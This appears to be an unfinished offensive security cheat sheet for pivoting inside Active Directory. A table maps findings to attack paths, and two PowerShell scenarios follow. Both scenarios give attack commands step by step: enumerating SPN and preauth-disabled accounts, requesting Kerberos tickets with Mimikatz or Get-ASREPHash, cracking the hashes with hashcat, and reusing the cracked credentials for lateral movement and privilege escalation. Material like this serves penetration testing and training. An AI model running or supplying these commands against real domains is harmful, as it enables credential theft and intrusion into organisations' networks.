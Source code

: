 ### **📋 Pivot Decision Table**
| **Finding** | **Immediate Pivot** | **Secondary Pivot** | **Attack Path** |
|-------------|---------------------|---------------------|-----------------|
| **adminCount=1** | *Coming Soon* | *Coming Soon* | Group membership → ACL abuse |
| **SPN users** | *Coming Soon* | *Coming Soon* | SPN discovery → Kerberoasting |
| **Preauth disabled** | *Coming Soon* | *Coming Soon* | AS-REP roasting → Ticket analysis |
| **Unconstrained delegation** | *Coming Soon* | *Coming Soon* | Delegation abuse → Privilege escalation |
| **Active sessions** | *Coming Soon* | *Coming Soon* | ACL analysis → Session hijacking |
| **Weak GPOs** | *Coming Soon* | *Coming Soon* | Policy abuse → Scheduled task execution |

---

## 🎯 **SPECIFIC PIVOT SCENARIOS (Common Findings)**

### **🔐 KERBEROS-RELATED FINDINGS**

#### **Scenario 1: User with SPN Found**
```powershell
# Finding: User with servicePrincipalName attribute
Get-ADUser -Filter {ServicePrincipalName -like "*"} -Properties ServicePrincipalName

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: Extract SPN hash
Invoke-Mimikatz -Command '"kerberos::ask /target:MSSQLSvc/db01.corp.local"'

# Step 2: Crack hash with Hashcat
hashcat -m 13100 -a 0 hash.txt wordlist.txt

# Step 3: Use credentials for lateral movement
# PIVOT TO: *Coming Soon*
```

#### **Scenario 2: PreauthNotRequired = True**
```powershell
# Finding: User with preauth disabled
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $true} -Properties DoesNotRequirePreAuth

# IMMEDIATE PIVOT: *Coming Soon*
# Step 1: AS-REP roasting
Get-ASREPHash -UserName vulnerable_user -Domain corp.local

# Step 2: Crack hash
hashcat -m 18200 -a 0 hash.txt wordlist.txt

# Step 3: Use credentials for privilege escalation
# PIVOT TO: *Coming Soon*
```
